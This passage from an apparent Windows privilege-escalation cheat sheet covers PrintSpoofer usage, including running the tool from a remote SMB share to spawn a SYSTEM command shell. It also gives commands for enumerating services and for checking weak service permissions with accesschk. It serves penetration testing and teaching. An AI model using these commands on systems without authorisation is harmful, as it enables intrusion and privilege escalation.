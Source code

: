 ### Exploiting with PrintSpoofer.exe

The target machine's arch is need to be x64.

[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

```
PrintSpoofer.exe -i -c cmd
\\192.168.1.1\Share\PrintSpoofer.exe -i -c cmd
```

## Services

Get a list of services:

```
net start
wmic service list brief
sc query
Get-Service
tasklist /svc
```

### Permissions

You can use **sc** to get information of a service

```
sc qc <service_name>
```

It is recommended to have the binary **accesschk** from _Sysinternals_ to check the required privilege level for each service.

```bash
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

It is recommended to check if "Authenticated Users" can modify any service:

```bash
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk64.exe -qlc "someUser" *
```

[You can download accesschk.exe for XP for here](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)

### Enable service

If you are having this error (for example with SSDPSRV):

_System error 1058 has occurred._\
_The service cannot be started, either because it is disabled or because it has no enabled devices associated with it._
